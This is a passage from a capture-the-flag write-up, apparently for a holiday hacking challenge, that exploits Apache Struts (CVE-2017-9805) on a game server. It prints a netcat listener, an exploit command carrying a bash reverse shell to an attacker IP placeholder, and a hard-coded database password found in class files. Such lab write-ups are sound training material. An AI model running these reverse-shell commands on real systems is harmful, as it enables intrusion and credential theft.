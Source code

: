 So there is a chance that the application uses Apache Struts and the exploit is related to the Equifax Hack.

> Hint 6: That business with Equal-Facts Inc was really unfortunate. I understand there are a lot of different exploits available for those vulnerable systems. Fortunately, Alabaster said he tested for CVE-2017-5638 and it was NOT vulnerable. Hope he checked the others too.
 
> Hint 7: Apache Struts uses XML. I always had problems making proper XML formatting because of special characters. I either had to encode my data or escape the characters properly so the XML wouldn't break. I actually just checked and there are lots of different exploits out there for vulnerable systems. [Here is a useful article.](https://pen-testing.sans.org/blog/2017/12/05/why-you-need-the-skills-to-tinker-with-publicly-released-exploit-code)
  
> Hint 8: Pro developer tip: Sometimes developers hard code credentials into their development files. Never do this, or at least make sure you take them out before publishing them or putting them into production. You also should avoid reusing credentials for different services, even on the same system.

In order to get a reverse shell, I need to have a public IP address.
On Kali box:

```bash
nc -lvp 443
```

To exploit:

```bash
python cve-2017-9805.py -u https://dev.northpolechristmastown.com/orders/542 -c "bash -i >& /dev/tcp/<public-ip-goes-here>/443 0>&1"
```

It took me a long time after getting the shell to find the password because I overlooked the result coming from grep and things doesn't work well over this netcat shell. I decided to setup persistence and upgraded my shell using msfvenom reverse_tcp shell.

While trying to get Alabaster Snowball's password, the only place I can think of to have password is the tomcat manager. The application is located in `/opt/apache-tomcat`. I looked into `tomcat_users.xml` but no luck. After a few hours trying to grep with keywords like `pass, password, alabaster`, I was able to find the password in `apache-tomcat/webapps/ROOT/WEB-INF/classes/org/demo/rest/example/OrderMySql.class`.

```java
public class Connect {
            final String host = "localhost";
            final String username = "alabaster_snowball";
            final String password = "stream_unhappy_buy_loss";   
            String connectionURL = "jdbc:mysql://" + host + ":3306/db?user=;password=";
            Connection connection = null;
            Statement statement = null;
```

Password: `stream_unhappy_buy_loss`

Note on this part:

- The netcat shell initially had really limited capabilities. I needed to change the `PATH` environment variable to be able to use more commands
- The file `GreatBookPage2.pdf` was right on the root of `https://l2s.northpolechristmastown.com/`. I didn't figure that out until I got the shell and was poking around with the application.

